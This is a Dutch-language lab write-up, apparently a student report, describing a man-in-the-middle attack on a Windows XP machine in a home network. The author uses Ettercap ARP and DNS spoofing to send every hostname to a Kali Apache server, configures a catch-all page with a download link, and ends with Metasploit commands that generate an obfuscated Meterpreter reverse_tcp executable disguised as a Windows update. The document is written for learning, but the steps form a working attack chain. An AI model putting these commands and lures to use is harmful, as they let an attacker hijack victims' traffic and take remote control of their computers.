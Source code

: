 Als eerste MITMf terug opnieuw geïnstalleerd (dit moet uiteraard eerst terug werken). En daarna alle stappen van Ettercap opnieuw uitgevoerd. Wonder boven wonder begonnen dinges te werken. Ik gebruikte eerst de standaard etter.dns file. Deze zal indien het IP adres van microsoft.com gevraagd wordt het IP doorsturen van linux.org (trololo). Wat er nu eigenlijk verkeerd was al dit tijd, we hebben geen idee.

Daarna hebben we de etter.dns file aangepast dat elke hostname zich bevind op onze Kali computer:

>\*&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;192.168.2.18

Nu voor we dit konden uittesten, moesten we uiteraard een webserver hebben draaien op onze Kali computer. Uiteraard doen we dit met apache!

> sudo service apache2 start

Nu onze webserver opstaat, passen we de index.html file (/var/www/html/) aan naar onze eigen wensen. We verzinnen een tekst, en voegen een download link toe. Voorlopig laten we deze even naar niets wijzen (href) we hebben onze backdoor nog niet gecreëerd. We testen de site door te surfen naar localhost op onze hacker (Kali). Het ziet er goed uit. Ik test even de site manueel op de Windows XP computer (surfen naar 192.168.2.18). Dit werkt ook.

We voeren ons DNS spoof aanval uit. Eerst dus ARP spoofing opzetten. Even verfieren of dit werkt op de Win XP computer d.m.v. arp -a. Alles werkt normaal ik ben instaat om pakketjes te sniffen (ik zie een dhcp pakketje voorbij komen en wat achtergrond http verkeer). Ik zet de dnsspoof plugin op. Ik flush voor de zekerheid de dns cache op de WinXP computer. En surf dan naar microsoft.com en ja hoor daar staat hij onze eigen mooie site! 

Er is nog een klein probleempje, als je bijvoorbeeld zoekt met google wordt de url aangepast met een zoek query. Deze url bestaat niet op onze server. Daar staat enkel een index.html pagina op. We moeten nog instellen dat als de site niet gevonden wordt op mijn server dat hij automatisch geredirect wordt naar de index.html pagina.

Dit heb ik gedaan d.m.v. [fallbackresource](http://httpd.apache.org/docs/2.2/mod/mod_dir.html#fallbackresource). Dit kun je instellen in je apache settings.

> FallbackResource /index.html

Dit heb ik toegevoegd onder *DocumentRoot* in 000-default.conf in /etc/apache2/sites-available.</br>
Zo dit probleem is ook opgelost. Het maakt niet uit wat je invuld, je komt altijd terecht op onze website. Deel 1 van het plan is geslaagd.

Nu was het tijd voor Metasploit. We zullen gebruik maken van de *reverse_tcp exploit*. Deze exploit zal zorgen dat er een 'reverse connection' opgesteld wordt. Normaal verbind en client naar een server via een bepaalde poort. Een firewall zal het binnenkomende verkeerd vanaf die poort in de gaten houden en a.d.h.v. regels wordt er bepazld of het toegestaan of niet toegestaand is. Bij en 'reverse connection' zet je zelf een poort open en zeg je tegen de server verbind maar op deze poort. Omdat een firewall meestal enkel naar inkomend verkeer kijkt, wordt deze poort niet in de gaten gehouden. Vanaf er nu verbinding is gemaakt met een remote computer (server) zijn we eigenlijk instaat commando's door te sturen (Meterpreter). Kort gezegd slaagt dit dus gewoon op wie de sessie start! En we doen dit om routers / firewall settings te omzeilen. Je zult later ook zien dat we dus met onze hacker (Kali) zullen moeten wachten tot de victim verbinding probeert te maken met ons.


We moeten deze exploit in een uitvoerbaar bestand steken, we zullen dus een .exe genereren.

> use windows/meterpreter/reverse_tcp </br>
> set LHOST 192.168.2.18 </br>
> generate -e x86/shikata_ga_nai -i 30 -t exe -f win32update1536.exe
